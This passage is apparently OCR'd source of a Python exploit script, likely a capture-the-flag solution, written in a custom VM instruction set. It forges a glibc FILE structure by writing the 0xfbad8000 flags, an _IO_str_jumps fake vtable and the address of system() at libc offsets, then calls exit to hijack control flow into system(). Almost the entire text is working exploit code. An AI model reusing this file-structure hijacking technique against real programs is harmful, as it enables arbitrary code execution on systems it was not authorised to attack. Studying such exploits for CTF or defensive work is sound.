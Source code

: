 ```python
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x88)
add_dst_src_src2(offset+20,4,5)	# met offset 20 a libc +0x3ed888

sub_dst_src_imm(offset+15,2,1)		# met offset 15 à -1
sub_dst_src_imm(offset+18,2,1)		# met offset 18 à -1

# copy flags
mode()
push_imm(0xfbad)  # flags
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x80)
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x00)
add_dst_src_src2(offset,1,4)	# met offset (flags) to 0x8000

# write 0xffffffff
mode()
push_imm(0xffff)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0xff)
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0xff)
add_dst_src_src2(offset+24,1,4)	# met offset=24 (flags) to 0xffffffff

# write io_str_jumps
mode()
push_imm(0x3e83)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,8)
or_dst_src_imm(4,4,0x20)
add_dst_src_src2(offset+27,4,5)	# met offset 27 a libc +0x3e8368

# write system
mode()
push_imm(0x4f4e)
pop_reg(4)
switchl()
shl_dst_src_imm(4,4,4)
add_dst_src_src2(offset+28,4,5)	# met offset 28 system


mode()
push_imm(0x320)
pop_reg(4)
switchl()
add_dst_src_src2(23,13,4)		# met offset 23 à l'addresse de notre fake vtable


mode()
# call exit(0)
push_imm(0x22)
pop_reg(7)
int_r7()


print('payload size = '+str(len(payload)))
```